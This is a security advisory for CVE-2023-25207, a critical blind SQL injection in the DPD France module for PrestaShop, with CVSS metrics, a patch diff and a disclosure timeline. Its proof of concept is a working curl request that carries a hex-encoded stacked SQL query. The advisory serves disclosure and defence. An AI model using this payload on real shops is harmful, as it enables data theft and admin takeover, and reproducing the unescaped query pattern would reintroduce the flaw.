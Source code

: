 ```yaml
---
layout: post
title: "[CVE-2023-25207] Multiple improper neutralization of SQL parameters in DPD France module for PrestaShop"
categories: modules
author:
- 202-ecommerce.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,dpdfrance"
severity: "critical (9.8)"
---
```


In the module "DPD France" (dpdfrance) for PrestaShop, a remote attaker can perform a blind SQL injection in affected versions. Release 6.1.3 fixed vulnerabilities.

**WARNING** Be aware that the version 6.1.3 come with a new sensible problem so you must stay in alert to apply without delay future versions.

## Summary

* **CVE ID**: [CVE-2023-25207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-25207)
* **Published at**: 2023-03-09
* **Advisory source**: Friends-of-Presta.org
* **Vendor**: PrestaShop
* **Product**: dpdfrance
* **Impacted release**: < 6.1.3
* **Product author**: DPD France SAS
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

## Description

In dpdfrance module for PrestaShop up to 6.1.3, multiple sensitives SQL calls in method `dpdfrance::ajaxSetAddressOrder()` can be executed with a trivial http call and exploited to forge a bind SQL injection.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Technical and personal data leaks
* Obtain admin access
* Remove all data of the linked PrestaShop
* Display sensitives tables to front-office to unlock potential admin's ajax scripts of modules protected by token on the ecosystem

## Proof of concept

```bash
curl -v -X POST -d 'action_ajax_dpdfrance=setAddressOrder&order=1%27;select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://domain.tld/modules/dpdfrance/ajax.php?dpdfrance_token=EXPOSED_TOKEN_ON_FRONT_OFFICE'
```

## Patch

```diff
--- a/dpdfrance/dpdfrance.php
+++ b/dpdfrance/dpdfrance.php
@@ -977,7 +977,7 @@ class DPDFrance extends CarrierModule
     public function ajaxSetAddressOrder($param)
     {
         $dpdOrder = $this->getDpdOrder($param['order']);
-        $sql      = "UPDATE " . _DB_PREFIX_ . "dpdfrance_order SET override_return_street = '" . (string)$param['street'] . "', override_return_zip = '" . (string)$param['zip'] . "', override_return_city = '" . (string)$param['city'] . "', override_return_phone = '" . (string)$param['phone'] . "' WHERE id_order_dpd = '" . $param['order'] . "';";
+        $sql      = "UPDATE " . _DB_PREFIX_ . "dpdfrance_order SET override_return_street = '" . pSQL($param['street']) . "', override_return_zip = '" . pSQL($param['zip']) . "', override_return_city = '" . pSQL($param['city']) . "', override_return_phone = '" . pSQL($param['phone']) . "' WHERE id_order_dpd = '" . pSQL($param['order']) . "';";
         db::getInstance()->execute($sql);
         $response = ['update' => true];
         $response = json_encode($response);
```

## Other recommandations

* It’s recommended to upgrade the module beyond 6.1.3.
* For PrestaShop 1.6, you need to apply the patch manually.
* Upgrade PrestaShop beyong 1.7.8.8 (and 8.0.1) to disable multiquery executions (separated by ";").
* Change the default database prefix `ps_` by a new longer arbitrary prefix. Nethertheless, be warned that this is useless against blackhat with DBA senior skilled because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Timeline

| Date | Action |
|--|--|
| 2022-12-05 | Issue discovered during a code review by 202 Ecommerce and TouchWeb |
| 2022-12-05 | Contact the author |
| 2022-12-20 | Never recieved a response from the author |
| 2022-12-20 | Contact PrestaShop Addons Team |
| 2023-01-27 | Fix published on addons PrestaShop marketplace for PrestaShop 1.7+ only |
| 2023-01-28 | Request a CVE ID |
| 2023-03-09 | Publication of this security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/en/shipping-carriers/19414-dpd-france-delivery.html)
* [DPD France module page](https://www.dpd.com/fr/fr/faq/prestashop/)
* [National Vulnerability Database](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-25207)

